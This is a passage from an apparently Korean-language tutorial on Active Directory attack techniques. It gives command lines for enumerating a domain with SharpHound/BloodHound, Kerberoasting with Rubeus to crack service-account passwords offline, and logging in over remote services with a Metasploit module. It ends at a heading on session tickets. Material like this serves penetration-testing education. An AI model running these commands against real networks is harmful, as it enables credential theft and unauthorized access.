 - Mimikatz

# 자격 증명 또는 세션을 사용하여 Active Directory 나열하기

한 번 자격 증명을 획득하면 BloodHound와 같은 도구를 사용하여 AD 환경을 매핑하고 관련성 및 잠재적인 공격 경로를 식별할 수 있습니다.

<div class="content-ad"></div>

## 명령어:

```js
SharpHound.exe -c All
```

- BloodHound

# Kerberoasting

<div class="content-ad"></div>

케로버로스팅은 SPN(서비스 주체 이름)에 대한 서비스 티켓을 요청하고 이를 오프라인으로 깨서 평문 암호를 얻는 방법입니다. 이 기술에는 Rubeus와 같은 도구가 일반적으로 사용됩니다.

## 명령어:

```js
Rubeus.exe kerberoast
```

- Rubeus

<div class="content-ad"></div>

# 원격 연결 (RDP, SSH, FTP, Win-RM)

원격 연결을 악용하려면 Metasploit이나 Cobalt Strike와 같은 도구를 사용하여 RDP, SSH, FTP 및 Win-RM과 같은 서비스를 통해 접근할 수 있습니다.

## 명령어:

```js
msfconsole
use exploit/windows/rdp/rdp_login
set RHOSTS <대상_ip>
set USERNAME <사용자명>
set PASSWORD <암호>
run
```

<div class="content-ad"></div>

- Metasploit

# 현재 세션 티켓
